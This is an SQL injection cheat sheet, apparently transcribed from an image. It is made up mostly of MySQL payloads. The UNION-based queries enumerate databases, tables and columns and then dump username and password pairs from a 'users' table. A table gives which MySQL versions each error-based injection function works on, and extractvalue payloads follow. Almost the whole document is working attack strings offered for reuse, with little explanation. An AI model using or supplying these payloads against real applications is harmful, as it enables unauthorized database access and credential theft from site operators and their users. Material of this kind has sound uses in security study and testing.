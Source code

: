 ````sql
union select 1, version(), database() --+

# Breaking out a single database
union select 1, database(), schema_name from information_schema.schemata limit 0, 1 --+

# Explode all databases
union select 1, database(), group_concat(schema_name) from information_schema.schemata --+

# Explode a single table name in the database security
union select 1, database(), (select table_name from information_schema.tables where table_schema = database() limit 0, 1) --+

# Explode all table names in the database security
union select 1, database(), (select group_concat(table_name) from information_schema.tables where table_schema = database()) --+

# Explode a field from the table name users
union select 1, database(), (select column_name from information_schema.columns where table_schema = database() and table_name = 'users' limit 0, 1) --+

# Explode all fields from table name users
union select 1, database(), (select group_concat(column_name) from information_schema.columns where table_schema = database() and table_name = 'users' ) --+

# Explode a data from the corresponding column names in the users table
union select 1, database(), concat(id, 0x7e, username, 0x3A, password, 0x7e) from users limit 0,1 --+

# Explode all data from the corresponding column names in the users table
union select 1, database(), (select group_concat(concat(id, 0x7e, username, 0x3A, password, 0x7e)) from users) --+
```

### Report an error injection
Database error injection version restrictions:

|Error function|Database version (5.0.96, 5.1.60, 5.5.29, 5.7.26, 8.0.12)|
|:---:|:---:|
|extractvalue|5.1.60, 5.5.29, 5.7.26, 8.0.12|
|updatexml|5.1.60, 5.5.29, 5.7.26, 8.0.12|
|floor|5.0.96, 5.1.60, 5.5.29, 5.7.26|
|exp|5.5.29|
|geometrycollection|5.1.60, 5.5.29|
|linestring|5.1.60, 5.5.29|
|polygon|5.1.60, 5.5.29|
|multipoint|5.1.60, 5.5.29|
|multipolygon|5.1.60, 5.5.29|
|multilinestring|5.1.60, 5.5.29|

#### extractvalue
````sql
# Current database
and extractvalue(1,concat(0x7e,(select database()),0x7e)) --+

# When a database is exposed, you need to pay attention to the display length limitation. If it is too long, it will not be displayed.
and extractvalue(1,concat(0x7e,(select schema_name from information_schema.schemata limit 0,1),0x7e)) --+

# Explode a table name from the current database
and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e)) --+

````